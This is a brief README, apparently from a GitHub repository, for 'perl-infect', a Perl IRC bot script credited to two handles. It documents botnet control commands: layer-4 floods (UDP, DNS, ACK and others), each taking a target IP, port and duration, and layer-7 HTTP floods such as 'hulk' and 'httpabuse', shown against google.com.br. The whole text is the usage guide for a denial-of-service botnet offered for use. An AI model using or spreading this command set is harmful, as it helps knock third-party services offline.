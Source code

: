 # perl-infect
perl infect for irc net's, script by @inocenth4x0r and @prettysatan

layer4 commands:

!udp ip | !stopudp 

!std ip port time | !stopstd 

!rand ip time | !stoprand 

!dns ip time | !stopdns 

!ack ip time | !stopack 

!ufo ip time | !stopufo



layer7 commands:

!sadattack http://wwww.google.com.br | !stopsad 

!hulk http://www.google.com.br | !stophulk 

!gold http://www.google.com.br | !stopgold 

!httpabuse http://www.google.com.br | !stopabuse 
